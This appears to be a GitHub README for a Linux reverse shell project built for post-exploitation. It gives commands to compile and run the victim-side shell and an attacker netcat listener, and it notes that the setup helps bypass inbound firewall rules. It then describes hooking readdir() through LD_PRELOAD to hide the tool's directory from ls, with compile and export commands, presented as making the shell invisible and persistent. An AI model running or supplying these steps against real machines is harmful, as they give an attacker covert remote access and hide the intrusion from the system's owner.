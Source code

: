 ## Linux Reverse Shell
Target system(victim) acts an client and sever is setup by connection initiator(attacker). This is used as a one of post-exploitation tools to gain persistent remote access to victim machine.

### Advantages
* This remove the requirement of victim's machine IP address and port
* May help an attacker to bypass incoming connection firewall rules.

### usage of reverseShell
* victim's machine
<code>
    gcc rvrshell.c -o rvrshell && 
    ./rvrshell [IPV4 Addr] [port]
    
</code><br>
* attacker's machine:
<code>
      nc -l [port] <br>
</code><br>
<code>
    gcc shellsrv.c -o srv &&
    ./shellsrv.c [port]
</code>



### Dynamic linking/ Function call hooking

Now to we will be looking at concept of **Function call hooking** using dynamic linking(shared libraries)-
Dynamic linker provides feature for development of shared libraries and debugging purposes. Such LD_PRELOAD environment viriable or /etc/ld.preload.so in linux which make loading specified library function into memory before default libraries.[<sup>1</sup>](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)

**Function call hooking** refers to a range of techniques used to intercept calls to pre-existing functions and wrap around them to modify the function’s behavior at runtime. [<sup>2</sup>](https://www.netspi.com/blog/technical/network-penetration-testing/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/)


### Make it invisible & persistent
<!-- will GO here -->

We will be using function call hooking to hide our executables files from /bin/ls

Here, We hooked function **readdir()**[<sup>3</sup>](https://man7.org/linux/man-pages/man3/readdir.3.html) which act as C wrapper to getdents(), which is used by /bin/ls to list directories. <code>strace /bin/ls </code>

Instead of hiding files, we hooked readdir() function just to hide directory of name "reverseShell". We modified readdir() in such a way that when it get entry for "hidden_dir_name" it skips and hop to next entry and returns next dirent pointer.

> This can be further improve by hooking more function call to hide process from ps and netstat, but here it completes the purpose of project.

#### Usage & compilation of libreaddir.c -
<code>> gcc -Wall -fPIC -shared libreaddir.c -ldl -D_GNU_SOURCE -o libreaddir.so   </code> <br>
( by convention shared lib end with .so  & static lib with .a )
<br><code>> export LD_PRELOAD=/path/to/libreaddir.so </code>

[<sub>Read here for more details about shared library</sub>](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)












